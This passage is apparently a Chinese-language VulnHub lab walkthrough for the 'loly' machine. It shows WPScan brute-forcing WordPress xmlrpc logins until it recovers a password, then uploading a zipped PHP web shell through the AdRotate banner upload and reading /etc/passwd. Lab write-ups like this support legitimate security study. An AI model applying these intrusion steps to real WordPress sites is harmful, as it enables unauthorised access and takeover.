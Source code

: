 ```bash
 | Last Updated: 2022-07-20T01:45:00.000Z
 | [!] The version is out of date, the latest version is 5.8.26
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 5.8.6.2 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://loly.lc/wordpress/wp-content/plugins/adrotate/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <=============================================================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - loly / fernando                                                                                                                                 
Trying loly / corazon Time: 00:00:00 <                                                                              > (175 / 14344567)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: loly, Password: fernando
```

获得`loly`用户的密码是`fernando`

访问http://loly.lc/wordpress/wp-login.php 登录成功

![4](https://static.iihack.com/vulnhub/538/4.PNG)

满心欢喜去改主题代码或者加插件，发现loly虽然是管理员，但是没有权限。

没有办法，只能看看adrotate了，发现banner处可以上传zip

![5](https://static.iihack.com/vulnhub/538/5.PNG)

对应目录也能找到

![6](https://static.iihack.com/vulnhub/538/6.PNG)



访问http://loly.lc/wordpress/wp-content/banners/2.php 返回200，应该是zip压缩包自动解压后放到文件夹内了

![7](https://static.iihack.com/vulnhub/538/7.PNG)

上antsword连连成功

![8](https://static.iihack.com/vulnhub/538/8.PNG)

翻看数据库找到数据库密码

```bash
$ cat /etc/passwd|grep bash
root:x:0:0:root:/root:/bin/bash
loly:x:1000:1000:sun,,,:/home/loly:/bin/bash
```

